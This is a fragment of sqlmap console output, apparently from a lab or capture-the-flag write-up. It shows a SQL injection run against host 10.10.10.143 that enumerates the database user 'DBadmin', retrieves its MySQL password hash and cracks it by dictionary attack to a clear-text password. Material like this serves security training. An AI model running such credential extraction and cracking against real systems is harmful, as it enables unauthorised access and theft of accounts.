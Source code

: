 ```
[15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
database management system users [1]:
[*] 'DBadmin'@'localhost'

[15:06:01] [INFO] fetching database users password hashes
[15:06:02] [INFO] used SQL query returns 1 entry
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y
[15:06:02] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[15:06:02] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[15:06:02] [INFO] starting dictionary-based cracking (mysql_passwd)
[15:06:02] [INFO] starting 3 processes
[15:06:08] [INFO] cracked password 'imissyou' for user 'DBadmin'
database management system users password hashes:
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou

[15:06:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'

[*] ending @ 15:06:17 /2019-06-28/

```
